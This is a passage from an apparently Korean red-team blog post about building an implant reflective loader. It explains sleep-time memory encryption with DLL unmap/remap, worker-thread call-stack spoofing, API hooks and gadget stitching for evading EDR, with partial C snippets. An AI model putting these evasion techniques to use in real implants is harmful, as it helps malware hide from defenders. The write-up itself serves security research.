RC4는 XOR 기반이라 같은 키로 다시 돌리면 복호화된다 (7\~8번). 이후 `NtMapViewOfSection`으로 리맵된 클린 이미지의 `.text`에 `VirtualProtect(PAGE_READWRITE)`를 건 뒤 (9번), 백업해둔 에이전트 바이트를 다시 써넣는다 (10번). 마지막으로 `.text`는 `PAGE_EXECUTE_READ`, `.rdata`는 `PAGE_READONLY` 등 원래 섹션 권한을 복구한다 (11번).

복구가 끝나면 `run_kraken()`이 `TRUE`를 리턴하고, 제어가 `_WaitForSingleObject` 또는 `_KrakenSleep`으로 돌아온다. 에이전트 입장에서는 그냥 `Sleep`이나 `WaitForSingleObject`를 호출했다가 돌아온 것과 다를 게 없다. 하지만 실제로 뒤에서는 PICO가 에이전트가 슬립하고 있는 사이, 희생양 DLL을 통째로 언맵했다가 리맵한 것이다.

```c
// pico.c:165-172 - 에이전트가 WaitForSingleObject를 호출하면 여기로 온다
DWORD WINAPI _WaitForSingleObject(HANDLE hHandle, DWORD dwMilliseconds)
{
    DWORD result;
    if (dwMilliseconds >= 3500 && dwMilliseconds != INFINITE &&
        kraken_wait(&g_memory, hHandle, dwMilliseconds, &result))
        return result;           // Kraken 성공 → 그대로 리턴
    return (DWORD) spoof_call(&call);  // Fallback: 진짜 WFSO
}

// sleep_kraken_adv.c:294-298 - kraken_wait()
ok = run_kraken(&params);        // 백업→암호화→언맵→리맵→대기→복구 전부 여기서
if (ok && result != NULL)
    *result = params.waitResult;  // run_kraken 안의 WFSO 리턴값 전달
return ok;

// sleep_kraken_adv.c:301-317 - Sleep 호출 시
VOID WINAPI _KrakenSleep(DWORD milliseconds)
{
    if (milliseconds >= 1500 && g_memory.DllAllocMethod == ALLOC_MODULESTOMP) {
        HANDLE never = KERNEL32$CreateEventA(NULL, TRUE, FALSE, NULL);
        BOOL ok = kraken_wait(&g_memory, never, milliseconds, &result);
        KERNEL32$CloseHandle(never);
        if (ok) return;           // Kraken 성공 → 그냥 리턴. 끝.
    }
    real_sleep(milliseconds);     // Fallback
}
```

### 4. PICO - Callstack Spoofing

모듈 스톰핑으로 `MEM_IMAGE`에 숨고, 크라켄 슬립으로 sleep 중 메모리를 깨끗하게 만들었다. 하지만 에이전트가 **깨어 있을 때** API를 호출하는 순간, EDR은 콜스택(Call Stack)을 추적한다.

EDR은 API 호출 시 콜스택을 트레이싱해서 "이 호출이 어디서 시작됐는지"를 확인한다. 모듈 스톰핑 덕분에 코드 자체는 `MEM_IMAGE` 영역에 있지만, 콜스택 프레임이 수상하면 여전히 탐지된다. 특히 리턴 주소가 정상적인 `call`/`ret` 쌍이 아닌 경우, 혹은 리턴 주소가 가리키는 곳이 알려진 코드 영역과 맞지 않는 경우가 그렇다.

#### 전통적 방법: Return Address Spoofing

전통적인 콜스택 스푸핑은 스택 프레임의 리턴 주소를 정상적인 주소로 덮어쓰는 방식이다. API를 호출하기 전에 스택에 가짜 프레임을 쌓아서, EDR이 콜스택을 읽었을 때 정상적인 호출 체인처럼 보이게 만든다.

문제는 인텔 CET(Control-flow Enforcement Technology)등의 방어 기법들이 도입되면서 전통적인 접근이 막히고 있다는 것이다. 실제 `call` 명령어 없이 스택에 쌓인 리턴 주소는 CET의 Shadow Stack과 불일치가 생기고, 이를 탐지할 수 있게 됐다.

#### Barrel-Kit: Worker Thread Proxy

Barrel Kit의 콜 스택 스푸핑은 프레임 조작을 하지 않고, 그냥 별도의 Worker Thread (워커 스레드)를 만들어 API를 대신 호출하게 한다.

구조는 간단하다. PICO가 초기화될 때 워커 스레드를 하나 만든다. 이 워커는 이벤트를 기다리다가, 메인 스레드가 요청을 넘기면 API를 호출하고, 결과를 돌려준다.

```c
// spoof_worker_thread.c:79-95 — 워커 스레드
DWORD WINAPI worker_thread_proc(LPVOID param)
{
    PROXY_STATE * st = (PROXY_STATE *) param;
    for (;;) {
        st->wait_so(st->hRequest, INFINITE, FALSE);  // 요청 대기
        if (st->stop) break;
        if (st->pending_call != NULL) {
            st->result = dispatch_call(st->pending_call);  // API 호출
            st->pending_call = NULL;
        }
        st->set_event(st->hDone);  // 완료 시그널
    }
    return 0;
}
```

메인 스레드(에이전트)에서는 `spoof_call()`을 통해 워커에게 요청을 위임한다.

```c
// spoof_worker_thread.c:233-257 — 메인 스레드에서 호출
ULONG_PTR spoof_call(FUNCTION_CALL * call)
{
    PROXY_STATE * st = proxy_state_get();
    if (st != NULL && st->ready && st->hWorker != NULL) {
        st->pending_call = call;
        st->result       = 0;
        st->set_event(st->hRequest);     // 워커에게 요청
        st->wait_so(st->hDone, INFINITE, FALSE);  // 완료 대기
        return st->result;
    }
    return dispatch_call(call);  // 폴백: 직접 호출
}
```

이렇게 하면 워커 스레드의 콜스택은 다음과 같이 나온다:

```
ntdll!NtWaitForSingleObject      ← 진짜 시스템콜
KERNEL32!WaitForSingleObjectEx
worker_thread_proc               ← 정상적인 스레드 시작점
the_target_api                   ← 우리가 호출하려는 API
```

프레임을 조작한 게 아니다. 진짜 `call`과 `ret` 쌍이다. Shadow Stack과의 불일치도 없다. EDR이 콜스택 무결성을 아무리 검사해도, 정당한 워커 스레드가 정당한 API를 호출한 것이니 문제될 게 없다.

에이전트가 호출하는 34개의 API가 PICO의 IAT 훅을 거치고, 각 훅 함수 안에서 `spoof_call()`을 호출하기 때문에, 에이전트 입장에서는 평소대로 `CreateProcessA`, `VirtualProtect` 등을 호출하지만 실제로는 전부 워커 스레드를 경유하게 된다.

```c
// hooks.c — 패턴 예시
BOOL WINAPI _CreateProcessA(...) {
    FUNCTION_CALL call = { 0 };
    call.ptr  = (PVOID)(KERNEL32$CreateProcessA);
    call.argc = 10;
    call.args[0] = spoof_arg(lpApplicationName);
    // ...
    return (BOOL) spoof_call(&call);
}
```

#### Impersonation Fallback

한 가지 예외가 있다. 스레드가 토큰을 임퍼소네이션(impersonation) 중일 때다. 예를 들어, `getsystem` 이나 `make token`과 같이 에이전트가 `ImpersonateLoggedOnUser`로 다른 사용자의 토큰을 임퍼소네이션한 상태에서 API를 호출하면, 그 토큰의 권한으로 실행되어야 한다. 하지만 워커 스레드에는 해당 토큰이 없다. 이 경우 워커를 건너뛰고 메인 스레드에서 직접 호출한다.

#### Handle Rate Limiting

SOCKS Proxy를 sleep 0으로 돌리면, `CloseHandle`이나 `DuplicateHandle` 같은 핸들 관련 API가 초당 수백\~수천 회 호출된다. 매번 워커 스레드를 경유하면 이벤트 시그널링 오버헤드가 쌓여서 성능이 크게 떨어진다.

이를 위해 핸들 API들은 `spoof_call_handle()`을 거친다. 1초 윈도우 안에 200회 이상 호출되면, 3초간 워커를 건너뛰고 직접 호출하는 fast path로 전환한다.

```c
// spoof_worker_thread.c:205-231
static BOOL handle_fastpath_active(VOID)
{
    // 1초 윈도우 안에 200회 이상이면 3초간 direct path 유지
    if (state->handle_window_count >= HANDLE_RATE_THRESHOLD) {
        state->handle_fastpath_until = now + HANDLE_FASTPATH_HOLD_MS;
    }
}
```

콜스택 스푸핑을 포기하는 거 아닌가 싶을 수 있지만, 핸들 API는 프로세스 내부에서 워낙 빈번하게 호출되는 함수라서 EDR도 이 정도의 호출 빈도에서 콜스택을 일일이 검사하지는 않는다. 이정도는 감수할만하다.

#### WinInet Gate: Gadget Stitching

WinInet API 세 개(`HttpSendRequestA`, `InternetOpenA`, `InternetConnectA`)는 위의 워커 스레드 대신 `wininet_gate`라는 별도 프록시를 거친다. WinInet 호출은 네트워크 I/O를 수반하기 때문에 콜스택이 오래 남는다. 메인 워커 스레드와 다른 콜스택 identity를 가지게 해서, "모든 API가 같은 워커 스레드에서 나온다"는 탐지 패턴을 깨뜨리기 위함이다.

`spoof_stitch.c`는 KernelBase.dll과 ntdll.dll에서 `call [reg+disp32]; jmp [reg+disp8]` 패턴의 가젯을 찾고, `RUNTIME_FUNCTION` + `UNWIND_INFO`로 가젯의 unwind 메타데이터까지 검증한 뒤, 해당 가젯의 프레임 레이아웃을 재현하는 방식으로 콜 체인을 구성한다. CET Shadow Stack과도 호환되도록 실제 `call` 명령어를 사용한다. 구현이 상당히 복잡하기 때문에 자세한 설명은 소스코드를 참고하자.

## UDRL 끝!

재밌지 않은가? AI가 뚝딱 뚝딱 만들어줬지만 UDRL에는 사실 꽤나 복잡한 개념들이 많이 들어가 있다. 복잡한 코드가 워낙 많이 때문에 중간중간 디버깅을 하거나, 다시 align을 맞춰줘야 했지만, 그럼에도 나름 빠른 시간안에 잘 만들어줬다.
